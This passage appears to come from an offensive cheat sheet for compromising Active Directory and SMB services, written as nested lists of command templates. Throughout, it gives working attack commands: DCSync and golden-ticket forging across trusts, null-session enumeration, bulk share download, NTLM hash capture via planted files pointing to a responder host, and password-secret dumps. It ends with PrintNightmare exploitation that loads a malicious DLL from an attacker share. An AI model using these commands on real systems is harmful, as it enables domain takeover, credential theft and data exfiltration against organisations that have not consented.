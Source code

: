         *   [Child-Forest](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/trust-sid-hijacking/)
            *   `Get-DomainSID -Domain [CURRENT_DOMAIN]`
            *   `Get-DomainSID -Domain [FOREST_DOMAIN]`
            *   `lsadump::dcsync /dc:[CONTROLLER] /domain:[DOMAIN] /user:krbtgt`
            *   `kerberos::golden /user:Administrator /domain:[CURRENT_DOMAIN] /sid:[CURRENT_SID] /sids:[ROOT_SID]-519 /krbtgt:[HASH] /ptt`
            *   `lsadump::dcsync /domain:root.local /user:Administrator`
        *   [Cross-Forest](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/trust-ticket/)
            *   `lsadump::lsa /patch`
            *   `kerberos::golden /user:Administrator /domain:[CURRENT_DOMAIN] /sid:[CURRENT_SID] /rc4:[HASH] /service:krbtgt /target:[FOREST] /ticket:forest_ticket.kirbi`
            *   `.\asktgs.exe forest_ticket.kirbi CIFS/[FQDN_DC_OF_FOREST]`
            *   `.\kirbirator.exe lsa [GENERATED_TGS_FILE]`
*   SMB
    *   Null / Guest Binding
        *   `nxc smb [IP] -u '' -p ''`
        *   `nxc smb [IP] -u Guest -p ''`
    *   User Enumeration
        *   `nxc smb [IP] [AUTH_STRING] --users --groups --pass-pol`
        *   `nxc smb [IP] [AUTH_STRING] --rid-brute 10000`
    *   Shares Enumeration
        *   `nxc smb [IP] [AUTH_STRING] --shares`
        *   `smbclient -L \\[IP] [-U [USER%PASS]]`
        *   Data Access
            *   SMBClient Native         → `smbclient \\\\[IP]\\[SHARE] [-U [USER%PASS]]`
            *   Impacket Client            → `smbclient.py [AUTH_STRING]` → `help` / `shares`
            *   Upload Files                   → `put [SRC]`
            *   Recursive Download   → `nxc smb [IP] [AUTH_STRING] -M spider_plus -o DOWNLOAD_FLAG=True`
            *   Single Download          → `nxc smb [IP] [AUTH_STRING] --get-file '[FILE]' [OUT] --share "[SHARE]"`
            *   Local Mounting            → `mount -t cifs -o "username=[USER]" //[IP]/[SHARE] /mnt/[SHARE]`
        *   LLMNR
            *   [NTLM\_Theft](https://github.com/Greenwolf/ntlm_theft) → Share File Dropping
            *   `nxc smb [IP] [AUTH_STRING] -M slinky -o SERVER=[RESPONDER_IP]`
            *   `nxc smb [IP] [AUTH_STRING] -M scuffy -o SERVER=[RESPONDER_IP]`
            *   Cracking → `hashcat -m 5600`
    *   RPC Access
        *   Null / Guest Binding
            *   `rpcclient -U "%"      -N [IP]`
            *   `rpcclient -U "Guest%" -N [IP]`
        *   Enumeration
            *   `rpcclient -U '[USER]%[PASS]' [IP]`
            *   Queries
                *   `enumdomusers`   → `queryuser  [USERNAME]` + `querydispinfo`
                *   `enumdomgroups` → `querygroup [GROUP_NAME]`
                *   `getdompwinfo` / `enumprinters` / `querydominfo`
    *   GPP / LAPS / GMSA Read
        *   `nxc smb  [IP] [AUTH_STRING] -M gpp_password`
        *   `nxc smb  [IP] [AUTH_STRING] --laps`
        *   `nxc ldap [DC_IP] [AUTH_STRING] --gmsa`
    *   SCCM Abuse
        *   `sccmhunter.py smb -u [USER] -p [PASS] -d [DOMAIN] -dc-ip [DC_IP] -save`
        *   `sccmhunter.py show -all`
        *   [Admin Hunting](https://www.thehacker.recipes/ad/movement/sccm-mecm/lateral-movement)
        *   [Other Exploits](https://www.thehacker.recipes/ad/movement/sccm-mecm/privilege-escalation)
    *   DC Exploits
        *   `scan() smb [IP] [PORT]` → Exploit Research
        *   `nxc smb [IP] [AUTH_STRING] -M printnightmare -M spooler -M zerologon -M nopac -M smbghost -M ms17-010`
        *   [PrintNightmare](https://github.com/cube0x0/CVE-2021-1675.git) → `CVE-2021-1675.py [AUTH_STRING] '\\[KALI_IP]\Share\[EVIL.dll]'` → MSFVenom / [AddUser Cross-Compile](https://github.com/newsoft/adduser)